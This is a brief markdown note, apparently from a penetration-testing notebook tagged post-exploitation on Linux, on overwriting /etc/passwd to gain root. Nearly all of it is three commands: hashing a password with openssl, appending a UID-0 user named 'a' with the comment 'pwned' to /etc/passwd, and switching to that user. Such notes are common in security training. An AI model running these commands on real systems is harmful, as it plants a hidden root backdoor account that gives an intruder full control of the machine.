 ```yaml
---
tags:
  - PostExploitation
  - OperatingSystems
  - Linux
---
```



# Overwriting

#SecuringRoot 

Overwriting the `/etc/passwd` file can allow for a creation or modification of an existing user.

## Securing Root

```
openssl passwd -1 a
```

```
echo 'a:<HASH>:0:0:pwned:/root:/bin/bash' >> /etc/passwd
```

```
su - a
```
